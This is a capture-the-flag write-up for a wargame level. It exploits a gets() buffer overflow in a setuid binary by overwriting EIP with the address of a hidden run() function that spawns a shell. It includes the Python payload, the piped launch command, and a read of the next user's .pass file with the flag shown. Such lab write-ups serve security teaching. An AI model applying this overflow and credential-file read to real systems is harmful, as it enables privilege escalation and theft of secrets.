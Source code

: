 Level1's protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

Level1's rights:
```Shell
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

When testing, we notice that it only waits for user input and exits.
Decompiling with Ghidra on https://dogbolt.org/ shows two things:
- `gets()` is used with a buffer of 76 bytes
- there is an unused `run()` function that opens a shell

The goal is therefore to find a way to access the `run()` function. `gets()` major vulnerability is not checking
the size of input with the size of the buffer. If you exceed its size, you will overwrite data that can affect the flow of 
execution. There is a specific register in each function (`EIP`, for Instruction Pointer) that stores the address
of the next instruction: we must find where it is and overwrite it with the address of `run()`.

First, let's find `run()`'s address with GDB:
```Shell
(gdb) info function
[...]
0x08048444  run
[...]
```

We know that `EIP` sits right after the end of our buffer.
Using python we craft a payload that will:
- fill the buffer
- overwrite `EIP` with `run()`'s address
The address must be written in what is conventionnally known as Little Endian because our VM system is using that.
```Shell
python -c "print('A' * 76 + '\x44\x84\x04\x08')" > /tmp/payload1
```

However, launching `run()` and opening a shell is not enough. Using a pipe to send our payload instead of writing it manually
has some consequences:
- the shell inside `run()` becomes non-interactive
- it doesn't wait for user input because it encountered EOF and exits almost immediately.
It makes it impossible to write our commands and retrieve the password.
We can bypass that by adding `-` after the first `cat` command to keep stdin open, thus preventing the shell from exiting.
```Shell
cat /tmp/payload1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
